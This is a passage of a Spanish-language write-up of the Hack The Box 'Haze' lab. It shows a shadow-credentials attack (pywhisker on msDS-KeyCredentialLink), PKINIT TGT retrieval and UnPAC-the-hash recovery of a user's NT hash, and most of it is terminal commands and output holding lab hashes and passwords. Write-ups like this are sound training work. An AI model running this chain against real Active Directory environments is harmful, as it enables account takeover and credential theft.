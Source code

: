 ### Steal or Forge Authentication Certificates

Al estar dentro del grupo, y dado que `Support_Services` tiene permisos `AddKeyCredentialLink` sobre `edward.martin`, procedo a generar una clave de autenticación válida, que permite modificar el atributo `msDS-KeyCredentialLink` e inyectar un certificado propio.

```terminal
/home/kali/Documents/htb/machines/haze:-$ python /home/kali/Documents/Tools/pywhisker/pywhisker/pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" -H '84d6a733d85d9e03f46eba25b34517a9' --target edward.martin --action add 
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3698d57c-ced3-8773-6203-1a2a4eb0928b
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: OUGLI3VQ.pfx
[+] PFX exportiert nach: OUGLI3VQ.pfx
[i] Passwort für PFX: ZHInNheY8VhkcfNgm3V0
[+] Saved PFX (#PKCS12) certificate & key at path: OUGLI3VQ.pfx
[*] Must be used with password: ZHInNheY8VhkcfNgm3V0
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Esto genera un certificado vinculado a la cuenta `edward.martin`, junto con una contraseña temporal necesaria para su uso. Este certificado permite solicitar un TGT válido mediante autenticación PKINIT, lo cual constituye el primer paso del ataque [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash#unpac-the-hash).

```terminal
/home/kali/Documents/htb/machines/haze:-$ python /home/kali/Documents/Tools/PKINITtools/gettgtpkinit.py -cert-pfx OUGLI3VQ.pfx -pfx-pass ZHInNheY8VhkcfNgm3V0 haze.htb/edward.martin edward.ccache 
2025-05-14 01:13:29,293 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-14 01:13:29,392 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-13 17:13:49,390 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-13 17:13:49,390 minikerberos INFO     4d50462755cad08abb41090973a12e284723cc9f2c7142772e7c72c5d641c935
INFO:minikerberos:4d50462755cad08abb41090973a12e284723cc9f2c7142772e7c72c5d641c935
2025-05-13 17:13:49,392 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Con esta clave y el ticket almacenado en `edward.ccache`, solicito el hash NTLM del usuario.

```terminal
/home/kali/Documents/htb/machines/haze:-$ export KRB5CCNAME=edward.ccache

/home/kali/Documents/htb/machines/haze:-$ python /home/kali/Documents/Tools/PKINITtools/getnthash.py -key 4d50462755cad08abb41090973a12e284723cc9f2c7142772e7c72c5d641c935 haze.htb/edward.martin
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
